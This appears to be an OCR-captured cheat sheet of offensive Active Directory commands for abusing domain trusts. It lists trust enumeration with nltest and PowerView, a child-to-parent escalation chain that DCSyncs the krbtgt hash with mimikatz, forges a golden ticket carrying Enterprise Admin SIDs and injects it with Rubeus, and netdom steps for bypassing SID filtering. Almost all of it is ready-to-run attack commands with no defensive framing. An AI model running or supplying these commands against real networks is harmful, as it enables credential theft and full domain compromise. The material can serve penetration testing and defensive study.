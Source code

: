 * cmd
```
nltest /trusted_domains
```
* powershell
```
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```
* powerview
```
Get-DomainTrust -API or Get-DomainTrust -NET
Get-DomainTrustMapping
Get-DomainForeignGroupMember -Domain [target domain]
```

## Bidirectional Parent/Child -- sids
```
PowerShell Get-DomainGroup -Identity 'Domain Admins' -Domain [parent domain] | select ObjectSid
Shell whoami /user
DCSync krbtgt or lsadump::dcsync /user:krbtgt /domain:[child]
kerberos::golden /user:Administrator /domain:[child domain] /sid:[child domain] /sids:[parenet domain]-512 or 519 /krbtgt:[child domain] /ticket:test.kirbi
[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\John\Desktop\test.kirb")) 
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
Rubeus ptt /luid:0x21d8e17 /ticket:[...snip...]
ImpersonateProcess 2768
Rubeus triage

```

* powerview
```
Get-DomainSID -Domain [domain]
```
## SID filtering
```
Get-DomainTrust -Domain [target domain]
netdom trust [From] /d:[To] /enablesidhistory:yes  (This will add TREAT_AS_EXTERNAL to TrustAttributes)
```
* Need to find a custom group in domain local security groups and change sids to this group
```
Get-DomainGroupMember -Identity "Administrators" -Domain [target domain]
```
